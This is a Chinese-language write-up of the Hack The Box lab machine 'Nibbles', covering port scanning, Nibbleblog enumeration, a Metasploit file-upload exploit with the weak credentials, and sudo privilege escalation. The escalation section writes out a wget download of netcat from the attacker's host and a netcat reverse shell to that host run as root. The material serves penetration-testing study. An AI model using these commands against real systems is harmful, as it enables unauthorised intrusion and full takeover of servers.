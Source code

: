 ```yaml
---
title: Nibbles（sudono pass )
categories:
- training
tags:
- training
---
```

### 端口扫描

`nmap -sS -Pn 10.10.10.75 -vv`

```
**22/tcp    open     ssh             syn-ack ttl 63**
30/tcp    filtered unknown         no-response
**80/tcp    open     http            syn-ack ttl 63**
646/tcp   filtered ldp             no-response
705/tcp   filtered agentx          no-response
1001/tcp  filtered webpush         no-response
1043/tcp  filtered boinc           no-response
1052/tcp  filtered ddt             no-response
```

### web探测
>Info1:  `Apache/2.4.18 (Ubuntu) Server`

>Info2:`http://10.10.10.75/nibbleblog/themes/note-2/views/blog/view.bit`
var HTML_PATH_ROOT = "/nibbleblog/";var HTML_PATH_ADMIN = "/nibbleblog/admin/";var HTML_PATH_ADMIN_AJAX = "/nibbleblog/admin/ajax/";var HTML_PATH_ADMIN_JS = "/nibbleblog/admin/js/";var HTML_PATH_ADMIN_TEMPLATES = "/nibbleblog/admin/templates/";var _MAX_FILE_SIZE = 1024 * 3000;

>Info3:`/nibbleblog/admin/templates/`
在这个目录下找到一些图片，有一些图片，看时间是今天，明显是其他人传上去的webshell。

>Info4: `feed.php`，有人新建了一个用户。说明有些关键的文件我还没发现。

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%204.PNG)

>Info5:`http://10.10.10.75/nibbleblog/content/private/plugins/my_image/db.xml`
<plugin name="My image" author="Diego Najar" 
该插件，有一个作者名称，说不定有用，mark一下。

GET /nibbleblog/index.php?controller=post&amp;action=view&amp;id_post=7 HTTP/1.1

经过上面的信息搜集，摸索到了一些头绪。
在上传图片时，nibbleBlog没有检查文件类型，于是可以上传php文件。
[参考资料：nibbleBlog命令执行漏洞](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)

以上的信息都是经过**以下步骤**获取，为了方便查看，统一放在此处。

---

![查看源代码](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hh.PNG)
好，既然说了**这里没有什么有趣的！**
此地无银三百两。。

![查看博客首页](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hhh.PNG)

- Trying
dirbuster目录扫描，发现目录遍历。
![web目录扫描](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/hhhh.PNG)

通过目录遍历，翻找发现，很多文件都是xml（可扩展标记语言文件）。怀疑有xxe漏洞，xml external entyty，xml外部实体注入。

- Trying 进行验证
在feed.php源码，`http://10.10.10.75/nibbleblog/feed.php`

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95.PNG)

![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7.PNG)

在burp数据包添加xml语句，返回包并没有什么不同。。难道并没有xml外部实体注入？
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%202.PNG)

发现一个页面，有xml解析错误。说明对xml文件有解析。。经验不够，分析不出什么了。
![捕获 3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/%E6%8D%95%E8%8E%B7%203.PNG)

- Trying ：找后台

通过google搜索，得知该cms的后台
`http://10.10.10.75/nibbleblog/admin.php`
就尝试登陆了一次，提示`Nibbleblog security error - Blacklist protection`
就被加入了黑名单。。

---

## 文件上传获得shell

```
use exploit/multi/http/nibbleblog_file_upload
set RHOSTS 10.10.10.75
set USERNAME admin
set PASSWORD nibbles
set TARGETURI /nibbleblog
run

获得meterpreter shell
```
## 提权

参考以前做过的方式
[LTR Scene（php写入一句话+sudoer提权）](https://whale3070.github.io/training/2018/11/10/x/)

```
/usr/bin/python3.5 -c 'import pty; pty.spawn("/bin/bash")'
uname -a 说明64位linux

sudo -l

sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh


whereis nc


cd /home/nibbler/personal/stuff/
wget http://10.10.14.7:800/netcat-64
chmod a+x netcat-64
kali : nc -lnvp 9900
echo '#!/bin/bash' > monitor.sh
echo "./netcat-64 -e /bin/bash 10.10.14.7 9900" >>  monitor.sh
chmod a+x monitor.sh
sudo ./monitor.sh
```
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-14/11.PNG)

## 方法二：
不必上传netcat。

monitor.sh
```
bash -i
```
运行`sudo ./monitor.sh`后，本地即可从nibbler到root

## 总结
一般来说，黑名单限制登陆，是不允许暴力破解的。

但是这个靶机用的是弱密码，=。=

这就很尴尬了